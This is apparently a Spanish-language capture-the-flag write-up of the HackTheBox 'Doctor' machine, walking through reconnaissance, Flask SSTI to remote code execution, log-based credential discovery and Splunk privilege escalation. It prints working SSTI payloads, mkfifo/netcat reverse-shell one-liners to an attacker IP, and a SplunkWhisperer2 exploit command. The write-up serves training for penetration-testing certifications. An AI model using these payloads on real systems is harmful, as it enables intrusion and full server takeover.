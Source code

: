 # Máquina "Doctor" de HackTheBox

## Características

- Linux
- Easy
- External
- Splunk
- Penetration Tester Level 1
- SSTI Exploitation
- A03:2021-Injection
- Enumeration
- Remote Code Execution
- Defense Mechanisms
- Clear Text Credentials
- SIEM
- Log Analysis
- Misconfiguration
- SSTI
- SSTI popen (RCE)
- Bypassing de command injection (RCE)
- Abusing ADM group finding credentials in request logs
- Splunk exploitation en la escalada

## Útil en

- eWPT
- eWPTX v2
- OSWE

**IP:** 10.10.10.209

## Escaneo de puertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts
```

```bash
sudo nmap -sCV -p22,80,8089 10.10.10.209 -oN targeted
```

### Resultado del escaneo

```
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento web

Vemos el puerto 80 y 8089, así que les lanzamos un whatweb:

```bash
whatweb http://10.10.10.209
```

**Resultado:**
```
http://10.10.10.209 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@doctors.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.209], JQuery[3.3.1], Script, Title[Doctor]
```

```bash
whatweb http://10.10.10.209:8089
```

**Resultado:**
```
ERROR Opening: http://10.10.10.209:8089 - Connection reset by peer
```

Como vemos en la descripción de nmap del puerto 8089, nos muestra SSL y no HTTP, así que enviaremos HTTPS:

```bash
whatweb https://10.10.10.209:8089
```

**Resultado:**
```
https://10.10.10.209:8089 [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.10.10.209], Title[splunkd], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
```

## Configuración del archivo hosts

Agregamos al archivo `/etc/hosts`. Así que podemos tener un dominio en el puerto 80, podemos hacer virtual hosting. Ingresamos los datos de 3 formas: una con la IP, otra con el dominio y la otra con la IP al puerto 8089:

```bash
echo "10.10.10.209 doctors.htb doctor.htb" >> /etc/hosts
```

![Página web principal](/secciones/posts/imagenes/doctor/web1.png)

## Investigación de Splunk

Vemos los 4 links y nada. Continuamos lanzando `searchsploit splunk`. Luego buscamos en Google y podemos ver un local privilege escalation en:

https://github.com/cnotin/SplunkWhisperer2

Nos pide usuario y clave, así que lo dejaremos guardado.

## Análisis de la aplicación web

Volvemos a la página principal, nos registramos y vemos un panel con un número:

```
http://doctors.htb/home?page=1
```

Que podemos modificarlo para testear:

```
http://doctors.htb/home?page=../../../../.././../etc/passwd
```

Veremos el código fuente y podemos ver que hay una referencia a un directorio `<a class="nav-item nav-link" href="/home">Home</a>` y no se ve nada, así que agregamos al `/etc/hosts`.

```bash
whatweb http://doctors.htb
```

**Resultado:**
```
http://doctors.htb [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/3.8.2], HttpOnly[session], IP[10.10.10.209], Python[3.8.2], RedirectLocation[http://doctors.htb/login?next=%2F], Title[Redirecting...], Werkzeug[1.0.1]
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```

## Explotación SSTI

Ahora sí podemos ver, y al ver con Wappalyzer nos muestra que corre Flask. Lanzamos esta payload:

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

![SSTI Payload](/secciones/posts/imagenes/doctor/payload.webp)

¡Tenemos RCE! Ahora, probé una línea de shell reverso de la hoja de trucos de shell reverso de PentestMonkey. Esta fue mi carga útil final:

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f').read()}}
```

## Acceso inicial

Configuramos netcat y lanzamos:

```bash
nc -lvnp 1234
```

Tenemos shell, la configuramos y seguimos.

A continuación, utilicé `ssh-keygen` para crear un `id_rsa` para la web y luego inicié sesión a través de SSH.

## Escalada horizontal

Una vez dentro, lanzamos `id` y podemos ver que tenemos el grupo `adm`. Una búsqueda rápida me dijo que los usuarios del grupo `adm` pueden leer los archivos `/var/log`.

Así que vamos y ejecutamos:

```bash
grep -ir password * 2>/dev/null
```

Es posible que hayamos encontrado una posible contraseña: `Guitar123`. Intentamos ingresar con el usuario `shaun` y entramos con éxito.

Sacamos la flag de user.

## Escalamiento de privilegios

Ejecuté `ps aux` y vi que root está ejecutando el servidor splunkd:

```bash
ps aux | grep splunk
```

Usaremos el exploit nuevamente, pero esta vez desde shaun:

```bash
python3 PySplunkWhisperer2_remote.py --host doctor.htb --port 8089 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f" --lhost 10.10.14.4
```

¡Y somos root!

## Nota  

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes. Esto se debe a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.